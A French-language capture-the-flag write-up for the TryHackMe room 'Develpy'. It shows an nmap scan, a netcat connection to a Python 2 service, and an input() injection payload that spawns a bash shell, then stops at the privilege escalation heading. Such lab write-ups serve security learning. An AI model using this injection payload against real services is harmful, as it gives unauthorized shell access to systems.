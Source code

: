 # Develpy-Write-up
Write-up Room Develpy Tryhackme


Cliquez [ici](https://tryhackme.com/room/bsidesgtdevelpy) pour accéder au room.

# Première étape : Identifier la cible et ses vulnérabilités.

On commence par un scan de port avec nmap.

```bash

nmap -sS -A -Pn [IP]
```


![](img/Develpy_scan.png?raw=true) 

On voit q'au niveau du port 10000 il y a un petit script python qui tourne.
On se connecte au serveur sur ce port pour voir ce que ça donne.


```bash

nc [IP] 10000
```
![](img/Develpy_nc0.png?raw=true)

![](img/Develpy_nc0-1.png?raw=true)

>Ce script est écrit en python mais dans quelle version de python?
>On voit aussi que le module input est utilisé.


# Deuxième étape : exploitation de vulnérabilité

Dans ce cas c'est bien python2 qui est utilisé.

```python
__import__('os').system('bash')
```
La commande marche bien à merveille.
Cette commande permet d'exécuter la commande bash sur le shell linux,comme ça on est directement sur la machine.

![](img/Develpy_nc.png?raw=true)

On est mainténant loggé sur le user king.

```bash
cat user.txt
```
Avec la commande ci-dessus on a le premier flag.


# Troisième étape : Escalade de privilège

